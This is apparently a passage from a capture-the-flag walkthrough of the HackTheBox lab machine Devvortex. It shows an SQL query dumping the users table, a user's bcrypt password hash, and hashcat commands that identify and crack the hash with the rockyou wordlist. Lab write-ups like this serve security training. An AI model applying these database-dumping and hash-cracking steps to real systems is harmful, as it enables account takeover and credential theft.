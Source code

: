 List all users:

```sql
SELECT * FROM sd4fg_users;
```

<figure><img src="../../.gitbook/assets/image (362).png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" %}
```
logan paul | logan | logan@devvortex.htb | $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12
```
{% endcode %}

Try to crack this password with hashcat.

Identify the mode:

```bash
hashcat --identify logan.hash
```

<figure><img src="../../.gitbook/assets/image (363).png" alt=""><figcaption></figcaption></figure>

Crack it:

```bash
hashcat -m 3200 logan.hash /usr/share/wordlists/rockyou.txt
```
